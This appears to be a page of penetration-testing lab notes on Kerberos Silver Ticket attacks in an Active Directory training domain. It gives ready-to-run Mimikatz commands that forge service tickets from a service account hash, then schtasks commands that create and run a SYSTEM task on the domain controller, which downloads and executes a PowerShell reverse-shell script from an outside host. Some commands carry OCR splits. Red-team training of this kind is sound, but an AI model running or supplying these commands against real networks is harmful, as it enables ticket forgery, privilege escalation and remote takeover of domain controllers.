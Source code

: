 ## **Silver Ticket**

A valid TGS (Golden ticket is TGT).
Encrypted and Signed by the NTLM hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.
Services rarely check PAC (Privileged Attribute Certificate).
Services will allow access only to the services themselves.
Reasonable persistence period(default 30 days for computer accounts)

Using hash of the Domain Controller computer account, below command provides access to shares on the DC.
- Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21- 1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'

Similar command can be used for any other service on a machine. Which services? HOST, RPCSS, WSMAN and many more.

There are various ways of achieving command execution using Silver tickets.
Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target:
- Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21- 1874506631-3219952063-538504511 /target:dcorp- dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'

Schedule and execute a task.
- schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:808 0/Invoke-PowerShellTcp.ps1''')'"

- schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
